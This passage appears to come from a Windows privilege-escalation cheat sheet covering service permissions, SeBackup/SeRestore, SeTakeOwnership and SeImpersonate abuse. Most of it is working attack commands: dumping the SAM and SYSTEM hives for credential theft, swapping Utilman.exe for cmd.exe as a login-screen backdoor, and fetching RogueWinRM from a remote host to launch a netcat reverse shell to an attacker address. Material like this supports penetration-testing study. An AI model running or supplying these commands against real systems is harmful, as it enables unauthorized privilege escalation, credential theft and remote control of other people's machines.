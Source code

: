 #### Modify configuration of services - Services
```
Get-ModifiableService -Verbose (PowerUp)
```

### SeBackup / SeRestore - Windows Privileges
* Detection
```
whoami /priv
\\SeBackupPrivilege  
\\SeRestorePrivilege  
```

* Exploitation  
```
reg save hklm\system C:\Users\user\system.hive  
reg save hklm\sam C:\Users\user\sam.hive
```

### SeTakeOwnership - Windows Privileges
* Detection  
```
whoami /priv  
//SeTakeOwnership
```

* Exploitation  
```
takeown /f C:\Windows\System32\Utilman.exe  
icacls C:\Windows\System32\Utilman.exe /grant <user>:F  
copy cmd.exe utilman.exe
```
### SeImpersonate / SeAssignPrimaryToken - Windows Privileges
* Detection
```
whoami /priv
// SeAssignPrimaryTokenPrivilege
// SeImpersonatePrivilege
```

* Exploitation
```
powershell.exe -c "wget http://ip/RogueWinRM.exe -O RogueWinRM.exe"  
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\nc64.exe" -a "-e cmd.exe <ip> <port>"
```
or  
```
PrintSpoofer64.exe -i -c cmd
```
https://github.com/itm4n/PrintSpoofer

### Other Docs
https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants  
https://github.com/gtworek/Priv2Admin
